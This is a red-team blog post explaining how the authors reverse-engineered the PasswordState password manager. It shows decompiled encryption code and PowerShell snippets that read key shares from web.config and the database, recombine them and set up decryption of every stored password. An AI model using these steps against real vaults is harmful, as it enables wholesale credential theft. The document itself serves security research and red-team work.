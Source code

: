 # Decrypting PasswordState entries
During one of our recent red teaming engagements we managed to get a foothold in a customer's domain. During our information gathering we stumbled upon a hidden backup share on one of the servers. The hidden share contained a database and webroot backup for the PasswordState ([website](https://www.clickstudios.com.au/)) password vault! PasswordState is an enterprise password management solution. This means we hit the jackpot, for obvious reasons.

Searching the Internet for a way to decrypt all password did not yield any results, so we decided to look into the product and write our own! 

This post starts with an overview how the encryption works and ends with a ready-to-go PowerShell script to use during your red teaming engagements.

## PasswordState Reversing
PasswordState installs itself to `C:\inetpub\PaswordState` by default. In this directory, the web application and service source code is installed. The `C:\inetpub\Passwordstate\bin` contains the executable file `Passwordstate.exe`, which is also the service binary. This is a perfect binary for starting our reverse engineering efforts, since this most likely contains either a reference to the code that decrypts passwords, or a reference to that code.

### Reversing password encryption
The binary is a .NET Framework 4.5 binary. Using [dnSpy](https://github.com/0xd4d/dnSpy) it's possible to decompile this binary into (mostly) readable source code. The binary contains several namespaces, the most interesting being `PasswordstateService`. This namespace contains the service class `PasswordstateService`. 

Looking through the methods of this class, the `AddPassword` function stands out. This function adds a password to the password database, encrypting the plaintext in the process. The decompiled code snippet below shows where the application encrypts the password before storing it in the database.

    public string AddPassword(..., string InitialPassword, ...)
    {
        ...
        oleDbCommand2.Parameters.AddWithValue("Password", this.AES_Encrypt(Conversions.ToString(num) + "¿" + InitialPassword));
        ...
    }

The `AES_Encrypt` function encrypts the password. Apparently, this function uses the [`RijndaelManaged`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged) class in default mode and the [`AesCryptoServiceProvider`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.aescryptoserviceprovider) class in FIPS mode. 

    // PasswordstateService.PasswordstateService
    // Token: 0x06000193 RID: 403 RVA: 0x0003EEA8 File Offset: 0x0003D0A8
    public byte[] AES_Encrypt(string myString)
    {
        byte[] array = new byte[0];
        bool flag = !this.FIPSMode;
        if (flag)
        {
            RijndaelManaged rijndaelManaged = new RijndaelManaged();
            rijndaelManaged.KeySize = 256;
            rijndaelManaged.BlockSize = 256;
            rijndaelManaged.Key = this.EncryptionKey;
            rijndaelManaged.GenerateIV();
            array = this.encryptStringToBytes_AES(myString, rijndaelManaged.Key, rijndaelManaged.IV);
            array = PasswordstateService.Combine(new byte[][]
            {
                array,
                rijndaelManaged.IV
            });
            rijndaelManaged.Dispose();
        }
        else
        {
            AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider();
            aesCryptoServiceProvider.BlockSize = 128;
            aesCryptoServiceProvider.KeySize = 256;
            aesCryptoServiceProvider.Key = this.EncryptionKey;
            aesCryptoServiceProvider.GenerateIV();
            aesCryptoServiceProvider.Mode = CipherMode.CBC;
            aesCryptoServiceProvider.Padding = PaddingMode.PKCS7;
            byte[] bytes = Encoding.Default.GetBytes(myString);
            using (ICryptoTransform cryptoTransform = aesCryptoServiceProvider.CreateEncryptor())
            {
                byte[] array2 = cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length);
                array2 = PasswordstateService.Combine(new byte[][]
                {
                    array2,
                    aesCryptoServiceProvider.IV
                });
                array = array2;
            }
            aesCryptoServiceProvider.Dispose();
            aesCryptoServiceProvider = null;
        }
        return array;
    }

In both cases, the encryption key is taken from a class property `EncryptionKey`. This property is set in the `JoinSplitSecrets` method of the same class. This method gets 4 secrets, 1 and 2 from the web.config file and 3 and 4 from the database. Secret 1 and 3 are then combined into the `EncryptionKey` and secret 2 and 4 are combined into the `HMACKey`. The simplified code snippet below shows this process for the `EncryptionKey`.

    public void JoinSplitSecrets()
    {
        string value = "";
        string value3 = "";
        ...
            // get secrets from database
            string cmdText = "SELECT Secret3, Secret4 FROM [SystemSettings]";
        ...
                    //assign secrets to variables
                    value3 = oleDbDataReader["Secret3"].ToString();
        ...
        // get secret1 from web.config
        XmlNode xmlNode = xmlDocument.DocumentElement.SelectSingleNode("/configuration/appSettings/add[@key=\"Secret1\"]");
        ...
        value = xmlNode.Attributes.GetNamedItem("value").Value.ToString().ToLower();
        ...
        
        //append Secret1 and Secret3 to eachother
        StringBuilder stringBuilder = new StringBuilder();
        stringBuilder.AppendLine(value);
        stringBuilder.AppendLine(value3);

        // Combine these secrets 
        CombinedSecret combinedSecret = SecretCombiner.Combine(stringBuilder.ToString());
        string recoveredTextString = combinedSecret.RecoveredTextString;
        ...
        // Set the encryption key!
        this.EncryptionKey = PasswordstateService.ToHexBytes(recoveredTextString);
    }

The `SecretCombiner` class comes from the import `Moserware.Security.Cryptography` ([GitHub link](https://github.com/moserware/SecretSplitter)). This library allows a developer to split up secrets in two parts and store them apart from eachother. Combining both parts would lead to the original secret again. 

### Summary
Reversing the PasswordState decryption routine gives the following insights:
* The application generates 4 secrets, stores 2 in DB and 2 in web.config
* 1 secret from web.config and 1 from the DB generate
* * Encryption Key (secret 1 & 3)
* * HMAC Key (secret 2 & 4)
* Passwords are encrypted and stored using AES256-CBC and PKCS7

## Getting the necessary information
As said, the application stores its secrets spread over the database and the web.config file. Getting the secret from web.config is easy using PowerShell, since PowerShell is capable of parsing XML files and performing XPath queries. Getting the secret is a simple as:

    [xml]$webConfig = Get-Content .\Examples\web.config
    $secret1 = $webConfig.SelectSingleNode('/configuration/appSettings/add[@key="Secret1"]').value

In this code snippet we use XPath to select the necessary value.

Getting secret3 involves reading the database. As always, [StackOverflow](https://stackoverflow.com/questions/8423541/how-do-you-run-a-sql-server-query-from-powershell) has the answer. Using the code found in that post getting secret3 is as easy as:

    $secret3 = (Invoke-SQL -connectionString $ConnectionString -sqlCommand "SELECT secret3 FROM SystemSettings").secret3

Combining the secrets to get the encryption key is done like so (after loading in the Moserware DLL):

    $encryptionKey = [Moserware.Security.Cryptography.SecretCombiner]::Combine($Secret1 + "`n" + $Secret3).RecoveredTextString]

Note: this key is a hex-encoded variant of the actual key. Using a snippet from the [SANS](https://www.sans.org/blog/powershell-byte-array-and-hex-functions/) website we can transform it into a byte-array.

So now we have the key, we need to write the decryption function in PowerShell. As mentioned before, PowerShell is able to use the RijndaelManaged class directly. The snippet below shows how to decrypt one single entry. PasswordState uses a non-default Key and Block size.

    $RijndaelManaged = new-Object System.Security.Cryptography.RijndaelManaged
    $RijndaelManaged.KeySize = 256
    $RijndaelManaged.BlockSize = 256;

    $RijndaelManaged.Key = $EncryptionKey
    $RijndaelManaged.IV = $InitVector

    # Create Rijndael Decryptor with given parameters
    $decryptor = $RijndaelManaged.CreateDecryptor($RijndaelManaged.Key, $RijndaelManaged.IV)

## Putting it all together
Combining the things we discovered above leads to a PowerShell script that runs on the PasswordState server itself. If ran on the PasswordState server itself, it only needs the `web.config` location (and the SecretSplitter.dll location if it's not installed to the default location).

Alternatively, you can export all necessary secrets and run from another host. Please use PowerShell's Get-Help to find more information on how to use this script!

The script can be found on [Northwave's GitHub](https://github.com/NorthwaveNL/passwordstate-decryptor).